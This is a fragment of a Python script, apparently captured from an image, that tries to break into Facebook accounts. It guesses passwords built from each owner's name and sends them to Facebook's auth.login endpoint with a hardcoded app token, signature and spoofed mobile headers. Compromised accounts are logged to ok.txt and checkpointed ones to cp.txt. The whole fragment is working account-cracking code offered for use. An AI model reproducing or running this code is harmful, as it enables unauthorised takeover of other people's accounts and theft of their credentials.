 						else:
							pass3 = name.lower().split(' ')[0] + '12'
							api = 'https://b-api.facebook.com/method/auth.login'
							params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass3, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
							headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
							data = requests.get(api, params=params, headers=headers_)
							if "access_token" in data.text and "EAAA" in data.text:
								print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass3+"\033[0;97m")
								ok = open("ok.txt", "a")
								ok.write(uid+"|"+pass3+"\n")
								ok.close()
								oks.append(uid+pass3)
							else:
								if "www.facebook.com" in data.json()['error_msg']:
									print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass3+"\033[0;97m")
									cp = open("cp.txt", "a")
									cp.write(uid+"|"+pass3+"\n")
									cp.close()
									cps.append(uid+pass3)
								else:
									pass4 = name.lower().split(' ')[1] + '1234'
									api = 'https://b-api.facebook.com/method/auth.login'
									params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass4, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
									headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
									data = requests.get(api, params=params, headers=headers_)
									if "access_token" in data.text and "EAAA" in data.text:
										print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass4+"\033[0;97m")
										ok = open("ok.txt", "a")
										ok.write(uid+"|"+pass4+"\n")
										ok.close()
										oks.append(uid+pass4)
									else:
										if "www.facebook.com" in data.json()['error_msg']:
											print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass4+"\033[0;97m")
											cp = open("cp.txt", "a")
											cp.write(uid+"|"+pass4+"\n")
											cp.close()
											cps.append(uid+pass4)
										else:
											pass5 = name.lower().split(' ')[1] + '123'
											api = 'https://b-api.facebook.com/method/auth.login'
											params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass5, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
											headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
											data = requests.get(api, params=params, headers=headers_)
											if "access_token" in data.text and "EAAA" in data.text:
												print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass5+"\033[0;97m")
												ok = open("ok.txt", "a")
												ok.write(uid+"|"+pass5+"\n")
												ok.close()